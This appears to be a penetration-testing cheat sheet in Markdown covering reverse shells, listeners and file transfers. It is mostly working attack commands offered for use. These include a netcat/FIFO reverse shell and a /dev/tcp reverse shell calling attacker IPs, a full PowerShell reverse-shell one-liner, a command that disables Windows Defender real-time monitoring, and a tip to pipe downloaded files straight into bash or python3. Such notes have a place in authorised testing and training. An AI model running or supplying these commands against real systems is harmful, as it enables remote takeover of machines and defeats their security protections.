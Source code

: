 
# Shells

Sometimes Windows Defender does not allow connections
- To disable: open Powershell as administrator and `Set-MpPreference -DisableRealtimeMonitoring $true`

Listener:
- `nc` obviously
- `rlwrap nc -lvnp 8080` rlwrap enhances keyboard usage with shell
- `ncat --ssl -lvnp` provides extra features like encryption 
- `socat -d -d TCP-LISTEN:[port] STDOUT` creates a socket connection

# One-Liners

Netcat/Bash Reverse
- `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f`
	- removes `tmp/f`
	- makes the FIFO named pipe (https://man7.org/linux/man-pages/man7/fifo.7.html) as the new `/tmp/f` file
	- cat and pipe to `/bin/bash -i 2>&1` , `-i` makes the shell interactive, and STDERR and STDOUT are redirected to the `nc` command so the attacker can see errors
	- `nc` outputs to `/tmp/f` serving the bash shell to the listener
- `bash -i >& /dev/tcp/[attacker IP]/[port] 0>&1` connects to attacker's listener port


Powershell
- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.42.2',6666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`


# File Transfers

### No Network Comms

File Hash and Base64 encoding
- `md5sum [file]`
- `cat [file] | base64 -w 0;echo`
- Target: `echo -n '[base64 string]' | base64 -d > [output]`
- check sum again

Windows encode syntax
- `certutil -encodehex -f "[file]" "output.txt" 0x40000001 1>nul`

### Network Comms

`wget [link] -O [output]`
`curl [link] -o [output]` 
additionally, instead of supplying an out file, you can execute files by piping directly into `python3` or `bash` 
